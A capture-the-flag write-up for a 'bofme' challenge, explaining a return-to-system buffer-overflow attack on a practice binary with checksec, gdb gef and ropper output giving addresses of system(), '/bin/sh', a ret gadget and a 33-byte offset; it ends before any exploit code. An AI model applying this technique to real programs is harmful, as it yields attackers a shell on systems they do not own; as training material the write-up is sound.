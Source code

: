 ![](../images/bofme1.png)
In this challenge, we are been given an ELF file, which is vulnerable to BOF.
``bash
$ ./bofme
a little harder this timeaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
zsh: segmentation fault (core dumped)  ./bofme
``
after analyzing the file with gdb gef, 
i undersood that i need to make **return2system**
# return2system
is a type of exploitation on which , hacker exploit BOF vuln and trigger the vuln application to call system fucntion with 
some string like /bin/bash
system('/bin/bash')
<br> after the app call this function, we can get the shell  and exploit the remote server.
<br> in order to success in this job, we need to fill some condition
- the programme must not have PIE protection. otherwise  we can't fill the second condition
- we need to get the address of system
- we need to get the address of sum strings which we must use as system function param
- we need to get 'ret' gadget  in order to make the program return to the address of 'system'
- calculus the offset to get the rip.

so let see if all the function can be fill.

- condition 1 : we can check the protection of the binary by using checksec util
  ``bash
  $ checksec bofme  
[*] '/media/top0n3/70529ABA0103002B/trainning/ctf/cyberCooperation/pwn/bofme/bofme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
  ``
  so we see that the program havn't 'PIE' protection. condition 1 filled.
  - condition 2:  get the address of 'system' or gdb gef
     in order to do that, we can use nm to get that address
    ``bash
    gef➤  p system
    $1 = {int (const char *)} 0x7ffff7e0b920 <__libc_system>
    gef➤
    ``
    the address of system is:  0x7ffff7e0b920

    - condition 3: strings that we will use as system param:
      i search it by using gef
      `` bash
      [+] Searching '/bin/sh' in memory
[+] In '/media/top0n3/70529ABA0103002B/trainning/ctf/cyberCooperation/pwn/bofme/bofme'(0x400000-0x401000), permission=r-x
  0x400744 - 0x40074b  →   "/bin/sh" 
[+] In '/media/top0n3/70529ABA0103002B/trainning/ctf/cyberCooperation/pwn/bofme/bofme'(0x600000-0x601000), permission=r--
  0x600744 - 0x60074b  →   "/bin/sh" 
[+] In '/usr/lib/x86_64-linux-gnu/libc.so.6'(0x7ffff7f3a000-0x7ffff7f8e000), permission=r--
  0x7ffff7f5504f - 0x7ffff7f55056  →   "/bin/sh" 
gef➤  x/s 0x7ffff7f5504f
0x7ffff7f5504f:	"/bin/sh"
``
so at : 0x7ffff7f5504f we have the string "/bin/sh"
- codition 4: get the 'ret gadget:
  i use ropper to get that address:
  
``bash 
ropper  --search 'ret'  -f bofme 
[INFO] Load gadgets for section: PHDR
[LOAD] loading... 100%
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
[INFO] Searching for gadgets: ret

[INFO] File: bofme
0x00000000004004d1: ret;
``
so at 0x00000000004004d1, we have ret instruction.


  
- condition 6: calculus the offset :
  ![](../images/bofme2.png)
  <br>
  <br>
  so the offset is 33.

  #armed with all those informations, we can now write our exploit.
  
